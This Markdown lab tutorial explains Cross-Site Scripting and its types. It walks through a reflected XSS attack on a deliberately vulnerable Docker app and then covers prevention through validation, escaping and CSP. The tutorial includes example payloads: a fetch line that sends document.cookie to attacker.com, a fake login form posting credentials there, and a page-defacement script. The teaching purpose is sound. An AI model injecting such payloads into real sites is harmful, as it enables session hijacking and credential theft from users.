

# **Cross-Site Scripting (XSS)**

Cross-Site Scripting (XSS) is a critical security vulnerability in web applications that allows attackers to inject and execute malicious scripts in a user’s browser. These scripts can compromise sensitive data, hijack user sessions, deface websites, or perform unauthorized actions. We will also perform a Reflected XSS attack on an application to understand how it works.

## **Objective**
- Understand basics of XSS and how it works.
- Learn about different types of XSS attacks.
- Understand how Reflected XSS works.
- Perform a Reflected XSS attack on an application.
- Learn how to prevent Reflected XSS attacks.

## **What is Cross-Site Scripting (XSS)?**

XSS is a **web security vulnerability** where attackers inject **malicious scripts** into web pages. These scripts can manipulate the DOM, steal sensitive data, and impersonate users. XSS attacks usually exploit vulnerabilities in input handling and output rendering in web applications.


## **How Does XSS Work?**

### **1. Injection**  
The attacker injects **malicious input** into a vulnerable part of the web application, such as a form, URL parameter, or comment section. This input is designed to be processed as executable code rather than plain text.

- Example injection in a form field:  
  ```html
  <script>alert('XSS Attack');</script>
  ```

### **2. Execution**  
The browser executes the injected script when the user accesses the page containing the malicious input. Depending on the type of XSS (Stored, Reflected, or DOM-Based), this could happen automatically (Stored XSS) or require a user to click a malicious link (Reflected XSS).

- Example vulnerable output:  
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```
  
The browser renders and runs the script, displaying an alert box in this example.

### **3. Attack**  
Once executed, the script can perform harmful actions such as:
- **Stealing cookies**:  
  ```javascript
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  ```

  `document.cookie` is used to get the cookies of the user which is stored in the browser.

- **Manipulating the page (DOM)**:  
  ```javascript
  document.body.innerHTML = '<h1>This site has been hacked!</h1>';
  ```
  `innerHTML` is used to get the innerHTML of the body of the page. When the page is loaded, the script is executed and the innerHTML of the body is changed to `<h1>This site has been hacked!</h1>`.

- **Tricking users with phishing forms**:
  ```html
  <form action="https://attacker.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

  The form is submitted to the attacker's server and the username and password are stolen. User is not aware that their credentials are being stolen as the form is submitted to the attacker's server and the user is redirected to the attacker's website.

## **Types of XSS Attacks**


### **1. Stored XSS (Persistent XSS)**  
In **Stored XSS**, the malicious input is saved on the server, such as in a database. It gets embedded in a web page and automatically executed whenever a user accesses that page. For example, an attacker could post a comment containing a script, which runs whenever someone views the comment.

### **2. Reflected XSS (Non-Persistent XSS)**  
In **Reflected XSS**, the injected script is not stored on the server. Instead, it is included in the server's response based on user input. The attack usually requires the victim to click a malicious link that contains the script in a query parameter or form submission.

### **3. DOM-Based XSS**  
In **DOM-Based XSS**, the vulnerability is present in client-side JavaScript code. The application reads untrusted input (e.g., from the URL) and dynamically manipulates the page's content, leading to script execution without any server involvement.


## **Reflected XSS**

Reflected XSS, also known as **non-persistent XSS**, occurs when the web application immediately reflects user input in the server’s response without properly validating or escaping it. Since the input is not stored, the attack typically relies on **social engineering** to trick the user into visiting a specially crafted malicious link.

### **How Reflected XSS Works**


1. **Attacker Crafts Malicious URL**  
   The hacker creates a URL containing a malicious script and tricks the user into clicking it.

2. **User Clicks the Malicious URL**  
   The victim unknowingly interacts with the link, sending a request to the vulnerable website.

3. **Website Reflects the Malicious Script**  
   The website processes the request and includes the malicious script in its response without proper sanitization.

4. **User’s Browser Executes the Script**  
   The victim's browser runs the injected script, which can steal sensitive information or compromise the user's session.

### **Impact of Reflected XSS**

- **Stealing Sensitive Data:** Attackers can steal cookies, session tokens, and other sensitive information.
- **Session Hijacking:** By stealing session data, attackers can impersonate users and gain unauthorized access to their accounts.
- **Phishing:** Attackers can trick victims into entering credentials by displaying fake login forms.
- **Page Defacement:** The attacker can alter the appearance and content of the web page.

## **Hands-on with Reflected XSS**

1. **Pull the Docker Image**

   ```bash
   docker pull fazlulkarim105925/reflected-xss
   ```

2. **Run the Docker Container**

   ```bash
   docker run -d -p 8000:8000 fazlulkarim105925/reflected-xss
   ```
3. **Create a Load Balancer in Poridhi's Cloud**

   Find the `eth0` IP address with `ifconfig` command.

   

   Create a Load Balancer with the `eth0 IP` address and the port `8000`

   

4. **Access the Web Application**

   Access the web application with the the provided `URL` by `loadbalancer`

   


### **Exploring the Application**

This web app designed to demonstrate Reflected XSS attacks. It allows users to input data, which is reflected without sanitization, making it vulnerable to malicious script execution. The app includes an attack simulation, hacker dashboard for captured data, and an XSS explanation page.

In `Home` page, if we enter any value in the `name` field, it will be reflected in the `results` field and greet the user with the value entered in the `field`.


Now, if we enter the following value in the `name` field:

```html
<script>alert('XSS Attack');</script>
```

The value will be reflected in the `results` field and the script will be executed.


Now if open the `inspect` tool ( By pressing `Ctrl + Shift + I` in the browser) and check the `elements` tab, we can see that the value entered in the `name` field is reflected in the `results` field and the script is executed.


In the Application, you will find a `Button` named `Special Greeting`.


If we click on the the Button, it will redirect you to `/whatWasHappen` page with a modal indicating that the information is being `hacked`. It basically send the browser to `/whatWasHappen` route within the application.


Now as your information is being `hacked`, you can see the `hacked` information by clicking on `View Stolen Data` Button.




## **How to Prevent Reflected XSS**

### **Input Validation**  
   Validate user input to allow only safe and expected formats. Reject input with special characters or HTML tags.

   **Example (Python):**
   ```python
   import re

   def is_valid_input(user_input):
       # Allow only letters, numbers, and spaces
       return bool(re.match("^[a-zA-Z0-9 ]+$", user_input))
   ```

   **Example Usage:**  
   ```python
   user_input = "<script>alert('XSS');</script>"
   if not is_valid_input(user_input):
       print("Invalid input!")
   ```

### **Output Escaping**  
   Escape special characters like `<`, `>`, and `&` to prevent browsers from executing scripts.

   **Example (Python with Flask):**
   ```python
   from flask import Flask, request
   from markupsafe import escape

   app = Flask(__name__)

   @app.route('/search')
   def search():
       user_input = request.args.get('q', '')
       safe_output = escape(user_input)  # Escape special characters
       return f"<p>Search results for: {safe_output}</p>"
   ```

   **Result:**  
   If the input is `<script>alert('XSS');</script>`, it will be displayed as plain text (`&lt;script&gt;alert('XSS');&lt;/script&gt;`) instead of executing the script.

### **Use Content Security Policy (CSP)**  
   Implement a CSP to block unauthorized scripts. Example header:  
   ```http
   Content-Security-Policy: default-src 'self'; script-src 'self';
   ```
## **Conclusion**

In this lab, we have learned about the basics of XSS and how it works. We have also learned about different types of XSS attacks and how to perform a Reflected XSS attack on an application. We also learned about how to prevent Reflected XSS attacks. In our upcoming labs, we wll explore Stored XSS.
